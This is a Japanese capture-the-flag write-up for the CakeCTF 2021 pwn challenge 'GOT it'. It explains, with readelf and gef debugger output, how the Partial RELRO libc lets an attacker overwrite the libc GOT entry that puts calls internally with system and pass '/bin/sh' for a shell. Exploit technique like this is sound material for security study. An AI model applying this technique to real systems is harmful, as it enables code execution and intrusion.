 # GOT it
https://github.com/kam1tsur3/2021_CTF/blob/master/cakectf/pwn/got_it/chall  
## 概要  
main関数のアドレスとlibc上のprintfのアドレスを与えられた上で、一度だけ任意のアドレスを書き換える処理を行える。  
最後に任意の文字列をputsで表示できる。  
## 解法
問題名からしてGOT Overwriteをするように思えるが、問題のバイナリはFull RELROである。  
しかし付属のlibcはPartical RELROなので、libcのGOT Overwriteができる。  
マジかよ、と思ってreadelfでセクションを見てみたが、ちゃんと.got.pltセクションがあった。  
```
$ readelf -S ./libc.so.6 | grep .got.plt
  [30] .got.plt          PROGBITS         00000000001eb000  001ea000
```  
マジかよ。  
念の為gefのvmmapで確認してみると、確かに書き込み可能な領域だった。  
```
gef> vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Size               Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000001000 0x0000000000000000 r-- /home/t3mp/CTF/cake_ctf/got_it/chall
( snipped )
0x00007ffff7fbd000 0x00007ffff7fc0000 0x0000000000003000 0x00000000001e7000 r-- /home/t3mp/CTF/cake_ctf/got_it/libc.so.6
0x00007ffff7fc0000 0x00007ffff7fc3000 0x0000000000003000 0x00000000001ea000 rw- /home/t3mp/CTF/cake_ctf/got_it/libc.so.6
0x00007ffff7fc3000 0x00007ffff7fc9000 0x0000000000006000 0x0000000000000000 rw-
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000004000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000002000 0x0000000000000000 r-x [vdso]
( snipped )
gef> telescope 0x00007ffff7fc0000
0x00007ffff7fc0000|+0x0000(000): 0x00000000001eab80
0x00007ffff7fc0008|+0x0008(001): 0x00007ffff7fc7000  ->  0x00007ffff7dd5000  ->  0x03010102464c457f
0x00007ffff7fc0010|+0x0010(002): 0x00007ffff7fe7bb0  ->  0xe3894853fa1e0ff3
0x00007ffff7fc0018|+0x0018(003): 0x00007ffff7f63600  ->  0x48f88948fa1e0ff3
0x00007ffff7fc0020|+0x0020(004): 0x00007ffff7f60800  ->  0x0ff68548fa1e0ff3
0x00007ffff7fc0028|+0x0028(005): 0x00007ffff7f64bb0  ->  0xf9c5f989fa1e0ff3
0x00007ffff7fc0030|+0x0030(006): 0x00007ffff7dfa040  ->  0x00000068fa1e0ff3
0x00007ffff7fc0038|+0x0038(007): 0x00007ffff7f5e6c4  ->  0xf7018b48fa1e0ff3
0x00007ffff7fc0040|+0x0040(008): 0x00007ffff7f602a0  ->  0xf9c5f989fa1e0ff3
0x00007ffff7fc0048|+0x0048(009): 0x00007ffff7f63c00  ->  0x02e2c148fa1e0ff3
```  
以上からlibcのGOT Overwriteが可能なので、printfのアドレスからlibc baseを算出して書きかえる事を考える。  
関数の最後に任意の文字列でputsができるのでputsを書き換えたくなるが、putsは問題バイナリの.gotセクションから呼ばれているのでputsは書き換えれない。  
しかしputsの処理を読んでみると、  
```
gef> disas puts
Dump of assembler code for function puts:
   0x00007ffff7e5c5a0 <+0>:     endbr64
   0x00007ffff7e5c5a4 <+4>:     push   r14
   0x00007ffff7e5c5a6 <+6>:     push   r13
   0x00007ffff7e5c5a8 <+8>:     push   r12
   0x00007ffff7e5c5aa <+10>:    mov    r12,rdi
   0x00007ffff7e5c5ad <+13>:    push   rbp
   0x00007ffff7e5c5ae <+14>:    push   rbx
   0x00007ffff7e5c5af <+15>:    call   0x7ffff7dfa460 <*ABS*+0xa27b0@plt>
   0x00007ffff7e5c5b4 <+20>:    mov    r13,QWORD PTR [rip+0x16398d]        # 0x7ffff7fbff48
   0x00007ffff7e5c5bb <+27>:    mov    rbx,rax
```  
puts+15のcall命令で呼ばれる関数がlibcの.got.pltから呼ばれているので、これをlibc上のsystemに書き換える。  
あとはputsの内容を/bin/shにするだけでシェルが取れた。  